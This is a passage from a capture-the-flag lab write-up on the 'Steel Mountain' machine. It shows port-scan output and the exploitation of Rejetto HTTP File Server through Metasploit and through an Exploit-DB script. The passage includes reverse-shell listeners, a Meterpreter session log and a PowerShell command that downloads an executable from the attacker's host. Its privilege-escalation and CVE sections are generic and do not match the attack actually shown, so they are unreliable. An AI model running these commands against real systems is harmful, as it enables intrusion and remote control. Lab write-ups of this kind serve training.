|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-09-21 16:27:50
|_  start_date: 2024-09-21 16:12:20

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
Read data files from: /snap/rustscan/208/usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.44 seconds
```

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### 2. Local Shell

---

This section records the steps from initial intrusion to obtaining a user shell. Keep track of the intent of the command execution and what output you should see next (credentials, misconfigurations, execution privileges).

### Implementation log (integrated)

https://sanposhiho.com/posts/2020-05-01-qiita-9fca52366411c4c4a32e/

https://ranakhalil101.medium.com/hack-the-box-optimum-writeup-w-o-metasploit-3a912e1c488c

https://hailstormsec.com/steel-mountain/

### scan first

At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
rustscan -a $ip --ulimit 5000 -- -A -sV
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools]
└─$ rustscan -a $ip --ulimit 5000 -- -A -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: allowing you to send UDP packets into the void 1200x faster than NMAP

[~] The config file is expected to be at "/home/n0z0/snap/rustscan/208/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.164.211:80
Open 10.10.164.211:135
Open 10.10.164.211:139
Open 10.10.164.211:445
Open 10.10.164.211:3389
Open 10.10.164.211:5985
Open 10.10.164.211:8080
Open 10.10.164.211:47001
Open 10.10.164.211:49152
Open 10.10.164.211:49153
Open 10.10.164.211:49154
Open 10.10.164.211:49155
Open 10.10.164.211:49156
Open 10.10.164.211:49163
Open 10.10.164.211:49164
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sV" on ip 10.10.164.211
Depending on the complexity of the script, results may take some time to appear.
[~]
Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-21 16:26 JST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:26
Completed NSE at 16:26, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:26
Completed NSE at 16:26, 0.00s elapsed
Initiating Ping Scan at 16:26
Scanning 10.10.164.211 [2 ports]
Completed Ping Scan at 16:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:26
Completed Parallel DNS resolution of 1 host. at 16:26, 13.00s elapsed
DNS resolution of 1 IPs took 13.02s. Mode: Async [#: 1, OK: 0, NX: 0, DR: 1, SF: 0, TR: 3, CN: 0]
Initiating Connect Scan at 16:26
Scanning 10.10.164.211 [15 ports]
Discovered open port 3389/tcp on 10.10.164.211
Discovered open port 135/tcp on 10.10.164.211
Discovered open port 80/tcp on 10.10.164.211
Discovered open port 445/tcp on 10.10.164.211
Discovered open port 139/tcp on 10.10.164.211
Discovered open port 8080/tcp on 10.10.164.211
Discovered open port 49152/tcp on 10.10.164.211
Discovered open port 49155/tcp on 10.10.164.211
Discovered open port 49153/tcp on 10.10.164.211
Discovered open port 49164/tcp on 10.10.164.211
Discovered open port 47001/tcp on 10.10.164.211
Discovered open port 49163/tcp on 10.10.164.211
Discovered open port 49156/tcp on 10.10.164.211
Discovered open port 49154/tcp on 10.10.164.211
Discovered open port 5985/tcp on 10.10.164.211
Completed Connect Scan at 16:26, 0.52s elapsed (15 total ports)
Initiating Service scan at 16:26
Scanning 15 services on 10.10.164.211
Service scan Timing: About 60.00% done; ETC: 16:28 (0:00:39 remaining)
Completed Service scan at 16:27, 62.73s elapsed (15 services on 1 host)
NSE: Script scanning 10.10.164.211.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 8.24s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
Nmap scan report for 10.10.164.211
Host is up, received syn-ack (0.26s latency).
Scanned at 2024-09-21 16:26:32 JST for 85s

PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl          syn-ack Microsoft SChannel TLS
| fingerprint-strings:
|   TLSSessionReq:
|     "I8%
|     steelmountain0
|     240920071227Z
|     250322071227Z0
|     steelmountain0
|     mkaA
|     *y/yA9
|     ti(!
|     |Q4O
|     PkjV
|     $0"0
|     !%%4
|     YY:H
|     )(&T
|     <4{_
|_    &\|0
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-09-20T07:12:27
| Not valid after:  2025-03-22T07:12:27
| MD5:   d7fa ddf6 1c5d 512b 9df2 abaf 501c 9923
| SHA-1: 4a56 4049 1c34 49b0 1500 d78f 3908 b94a 8849 be47
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQfIv6oDSXzoxEkSn2NGyZqjANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTI0MDkyMDA3MTIyN1oXDTI1MDMy
| MjA3MTIyN1owGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBAJvz3Ov4AtYKn1+9y+rETNODTIiwWGV66jUMBmjp
| RuGm5yg3ohvDFz7POiR8ASi5mvbPh7Sz+SOii6sHwqXiVO+evupta2FBoOocuNwu
| 5vWyFG6GePUVZMUqeS95QTmhqkikm9h6IRUjxal0aSghmuQNVge3sf30KNFqC+TK
| MhvYI9nwOzUWnWi1G9RKUaD8OSf/XFOJiZgzYrOd0Y8knJn6czxbAU7JGdDTdSYA
| cAR2u8J4O1nn6yWqckCQ+LBSXe7whXZOppgX2zv/r3xRNE8Fqgsy9raB3mxGwulb
| Ymy/wR8nAVwqidVR57XCUGtqVhLB0CzT6LRIM74sRgyAQt0CAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQCNwlBQqro9jNNkbDmT1+JI+c23bjAl2/AfWq/RPu22OPt2z6kHQtXEJc3J/Lxn
| MQyMB6fXuPgEP3XqR0fl3LhX6L8hJSU080Vsc/LQ0UM8A5jZNgdbai2L8L8roYIG
| 96UAQ0KnxmFputKD+ISsblAaWVk6SB/EhY+ZxVXBY8ujgUxXHtW73FDOf0m1JZl2
| QcrDyJn5UAPxpsYkVgWwfrKNB4gtBWQEbgcpKCZUE5TvPF+k/mxe6tRE5VPNRa4L
| wdjOp+JFEqKewEu3QHCI52dLwyA8NHtfnafz+z0/FReDEO/UccKmSQOcDze8E+kO
| I70mXHww+tESAn8xy+fZQ4b2
|_-----END CERTIFICATE-----
|_ssl-date: 2024-09-21T07:27:51+00:00; -1s from scanner time.
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http         syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49163/tcp open  msrpc        syn-ack Microsoft Windows RPC
49164/tcp open  msrpc        syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3389-TCP:V=7.60%I=7%D=9/21%Time=66EE7541%P=x86_64-pc-linux-gnu%r(TL
SF:SSessionReq,346,"\x16\x03\x03\x03A\x02\0\0M\x03\x03f\xeeu<\x06Y\xd4z\xb
SF:8\xab\xf2\xaa\xa8\xdf\xed\x8b:\x20V\xb5\xe1\xbaee\x1c\x89\xe1/\xdbsOX\x
SF:20\x9a\x10\0\0\x19\x152M3\xbd\x7f\xdd\)m\xf3\xde\"I8%\xde\xab\xe0\xdf\\
SF:-<k\xbb\xd8\xd3\xa7\0/\0\0\x05\xff\x01\0\x01\0\x0b\0\x02\xe8\0\x02\xe5\
SF:0\x02\xe20\x82\x02\xde0\x82\x01\xc6\xa0\x03\x02\x01\x02\x02\x10\|\x8b\x
SF:fa\xa04\x97\xce\x8cD\x91\)\xf64l\x99\xaa0\r\x06\t\*\x86H\x86\xf7\r\x01\
SF:x01\x05\x05\x000\x181\x160\x14\x06\x03U\x04\x03\x13\rsteelmountain0\x1e
SF:\x17\r240920071227Z\x17\r250322071227Z0\x181\x160\x14\x06\x03U\x04\x03\
SF:x13\rsteelmountain0\x82\x01\"0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x01\x05
SF:\0\x03\x82\x01\x0f\x000\x82\x01\n\x02\x82\x01\x01\0\x9b\xf3\xdc\xeb\xf8
SF:\x02\xd6\n\x9f_\xbd\xcb\xea\xc4L\xd3\x83L\x88\xb0Xez\xea5\x0c\x06h\xe9F
SF:\xe1\xa6\xe7\(7\xa2\x1b\xc3\x17>\xcf:\$\|\x01\(\xb9\x9a\xf6\xcf\x87\xb4
SF:\xb3\xf9#\xa2\x8b\xab\x07\xc2\xa5\xe2T\xef\x9e\xbe\xeamkaA\xa0\xea\x1c\
SF:xb8\xdc\.\xe6\xf5\xb2\x14n\x86x\xf5\x15d\xc5\*y/yA9\xa1\xaaH\xa4\x9b\xd
SF:8z!\x15#\xc5\xa9ti\(!\x9a\xe4\rV\x07\xb7\xb1\xfd\xf4\(\xd1j\x0b\xe4\xca
SF:2\x1b\xd8#\xd9\xf0;5\x16\x9dh\xb5\x1b\xd4JQ\xa0\xfc9'\xff\\S\x89\x89\x9
SF:83b\xb3\x9d\xd1\x8f\$\x9c\x99\xfas<\[\x01N\xc9\x19\xd0\xd3u&\0p\x04v\xb
SF:b\xc2x;Y\xe7\xeb%\xaar@\x90\xf8\xb0R\]\xee\xf0\x85vN\xa6\x98\x17\xdb;\x
SF:ff\xaf\|Q4O\x05\xaa\x0b2\xf6\xb6\x81\xdelF\xc2\xe9\[bl\xbf\xc1\x1f'\x01
SF:\\\*\x89\xd5Q\xe7\xb5\xc2PkjV\x12\xc1\xd0,\xd3\xe8\xb4H3\xbe,F\x0c\x80B
SF:\xdd\x02\x03\x01\0\x01\xa3\$0\"0\x13\x06\x03U\x1d%\x04\x0c0\n\x06\x08\+
SF:\x06\x01\x05\x05\x07\x03\x010\x0b\x06\x03U\x1d\x0f\x04\x04\x03\x02\x040
SF:0\r\x06\t\*\x86H\x86\xf7\r\x01\x01\x05\x05\0\x03\x82\x01\x01\0\x8d\xc2P
SF:P\xaa\xba=\x8c\xd3dl9\x93\xd7\xe2H\xf9\xcd\xb7n0%\xdb\xf0\x1fZ\xaf\xd1>
SF:\xed\xb68\xfbv\xcf\xa9\x07B\xd5\xc4%\xcd\xc9\xfc\xbcg1\x0c\x8c\x07\xa7\
SF:xd7\xb8\xf8\x04\?u\xeaGG\xe5\xdc\xb8W\xe8\xbf!%%4\xf3Els\xf2\xd0\xd1C<\
SF:x03\x98\xd96\x07\[j-\x8b\xf0\xbf\+\xa1\x82\x06\xf7\xa5\0CB\xa7\xc6ai\xb
SF:a\xd2\x83\xf8\x84\xacnP\x1aYY:H\x1f\xc4\x85\x8f\x99\xc5U\xc1c\xcb\xa3\x
SF:81LW\x1e\xd5\xbb\xdcP\xce\x7fI\xb5%\x99vA\xca\xc3\xc8\x99\xf9P\x03\xf1\
SF:xa6\xc6\$V\x05\xb0~\xb2\x8d\x07\x88-\x05d\x04n\x07\)\(&T\x13\x94\xef<_\
SF:xa4\xfel\^\xea\xd4D\xe5S\xcdE\xae\x0b\xc1\xd8\xce\xa7\xe2E\x12\xa2\x9e\
SF:xc0K\xb7@p\x88\xe7gK\xc3\x20<4{_\x9d\xa7\xf3\xfb=\?\x15\x17\x83\x10\xef
SF:\xd4q\xc2\xa6I\x03\x9c\x0f7\xbc\x13\xe9\x0e#\xbd&\\\|0\xfa\xd1\x12\x02\
SF:x7f1\xcb\xe7\xd9C\x86\xf6\x0e\0\0\0");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:da:52:a4:ca:cd (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02 da 52 a4 ca cd 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 21156/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42314/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58811/udp): CLEAN (Failed to receive data)
|   Check 4 (port 30139/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-09-21 16:27:50
|_  start_date: 2024-09-21 16:12:20

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 16:27
Completed NSE at 16:27, 0.00s elapsed
Read data files from: /snap/rustscan/208/usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.44 seconds
```

At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
nmap -p- -sC -sV -T4 $ip
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -p- -sC -sV -T4 $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 16:13 JST
Nmap scan report for 10.10.164.211
Host is up (0.26s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-09-20T07:12:27
|_Not valid after:  2025-03-22T07:12:27
| rdp-ntlm-info:
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-09-21T07:31:31+00:00
|_ssl-date: 2024-09-21T07:31:37+00:00; -1s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:da:52:a4:ca:cd (unknown)
| smb2-security-mode:
|   3:0:2:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-09-21T07:31:28
|_  start_date: 2024-09-21T07:12:20

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1085.55 seconds
```

Vulnerability information is below

```bash
8080/tcp  open     http               HttpFileServer httpd 2.3
| http-vuln-cve2011-3192:
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: HFS 2.3
| http-fileupload-exploiter:
|
|_    Couldn't find a file-type field.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-method-tamper:
|   VULNERABLE:
|   Authentication bypass by HTTP verb tampering
|     State: VULNERABLE (Exploitable)
|       This web server contains password protected resources vulnerable to authentication bypass
|       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the
|        common HTTP methods and in misconfigured .htaccess files.
|
|     Extra information:
|
|   URIs suspected to be vulnerable to HTTP verb tampering:
|     /~login [GENERIC]
|
|     References:
|       http://www.mkit.com.ar/labs/htexploit/
|       http://www.imperva.com/resources/glossary/http_verb_tampering.html
|       https://www.owasp.org/index.php/Testing_for_HTTP_Methods_and_XST_%28OWASP-CM-008%29
|_      http://capec.mitre.org/data/definitions/274.html
```

SMB was not available

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ smbclient -L //$ip -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

I tried looking at the browser, but nothing in particular.


*Caption: Screenshot captured during steel-mountain attack workflow (step 1).*

Provided HTTPFileServer on 8080


*Caption: Screenshot captured during steel-mountain attack workflow (step 2).*

Check for vulnerabilities

There were several things that could be used

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ searchsploit "Http File Server" | grep -Ei "http file server|hfs"
FHFS - FTP/HTTP File Server 2.1.2 Remote Command Execution          | windows/remote/37985.py
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)         | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)         | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasplo | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities   | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1) | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2) | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Exec | windows/webapps/34852.txt
```

-You can view the site by adding the option ⇒ You can check the CVE number

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ searchsploit -w "Http File Server" | grep -Ei "http file server|hfs"
FHFS - FTP/HTTP File Server 2.1.2 Remote Command Executi | https://www.exploit-db.com/exploits/37985
HFS (HTTP File Server) 2.3.x - Remote Command Execution  | https://www.exploit-db.com/exploits/49584
HFS Http File Server 2.3m Build 300 - Buffer Overflow (P | https://www.exploit-db.com/exploits/48569
Rejetto HTTP File Server (HFS) - Remote Command Executio | https://www.exploit-db.com/exploits/34926
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulner | https://www.exploit-db.com/exploits/31056
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File  | https://www.exploit-db.com/exploits/30850
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Ex | https://www.exploit-db.com/exploits/34668
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Ex | https://www.exploit-db.com/exploits/39161
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote C | https://www.exploit-db.com/exploits/34852
```

Try using the vulnerabilities that seem useful in order.

```bash
msf6 > search 2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

was able to access

Activate PS by hitting in order

`load powershell`

`powershell_shell`

```bash
View the full module info with the info, or info -d command.

msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.11.87.75:4444
[*] Using URL: http://10.11.87.75:8080/WJ3TmVI6hH2C2Z
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /WJ3TmVI6hH2C2Z
[*] Sending stage (176198 bytes) to 10.10.164.211
[!] Tried to delete %TEMP%\ghlbWZg.vbs, unknown result
[*] Meterpreter session 1 opened (10.11.87.75:4444 -> 10.10.164.211:49208) at 2024-09-21 16:19:47 +0900
[*] Server stopped.

meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS >
```

Tore

```bash
PS > type user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```

### How not to use metasploit

Search for packages used in exploitdb

[https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

If I load it somehow

Sending nc.exe

Run in server mode in the directory where nc.exe is located on 80

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools/windows]
└─$ ls -la

-rw-r--r--  1 n0z0 n0z0  2332672 Sep 21 02:56 nc.exe
┌──(n0z0㉿LAPTOP-P490FVC2)-[~/tools/windows]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Please wait on nc

At this point, we execute the command to turn enumeration findings into a practical foothold. The goal is to obtain either code execution, reusable credentials, or a stable interactive shell. Relevant options are preserved so the step can be repeated exactly during verification.
```bash
nc -lnvp 5555
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.164.211] 49324
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>cd c:\
cd c:\

c:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A
```

When sending to HttpFileServer httpd ↑ Reverse shell is stuck

```bash
python2 39161.py $ip 8080
```

Something didn't go well.

`powershell -Command "Invoke-WebRequest -URI '[http://10.11.87.75/Advanced.exe](http://10.11.87.75/Advanced.exe)' -OutFile 'Advanced.exe'"`

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---



### CVE Notes

- **CVE-2007-6750**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2011-3192**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## References

- nmap
- rustscan
- metasploit
- nc
- sudo
- grep
- find
- python
- php
- CVE-2007-6750
- CVE-2011-3192
- GTFOBins
